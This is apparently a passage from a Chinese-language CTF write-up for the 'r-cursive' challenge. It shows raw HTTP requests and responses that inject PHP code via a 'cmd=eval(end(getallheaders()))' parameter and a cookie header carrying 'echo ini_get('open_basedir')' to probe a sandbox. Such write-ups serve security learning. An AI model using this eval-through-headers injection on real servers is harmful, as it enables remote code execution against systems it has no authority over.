 ```
GET /?cmd=eval(end(getallheaders())); HTTP/1.1
Host: .sandbox.r-cursive.ml:1337
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cookie: echo ini_get('open_basedir');
```

```
HTTP/1.1 403 Forbidden
Date: Tue, 22 May 2018 07:25:36 GMT
Server: Apache/2.4.10 (Debian)
Content-Length: 298
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /
on this server.<br />
</p>
<hr>
<address>Apache/2.4.10 (Debian) Server at .sandbox.r-cursive.ml Port 1337</address>
</body></html>
```

报错，403，这是由于sandbox目录下只有init.php，没有index.php的缘故。我们访问init.php试试，200,没有报错。说明open_basedir已经发生变化。

```
GET /init.php?cmd=eval(end(getallheaders())); HTTP/1.1
Host: .sandbox.r-cursive.ml:1337
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cookie: echo ini_get('open_basedir');
```

```
HTTP/1.1 200 OK
Date: Tue, 22 May 2018 07:26:20 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.36
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8      
```

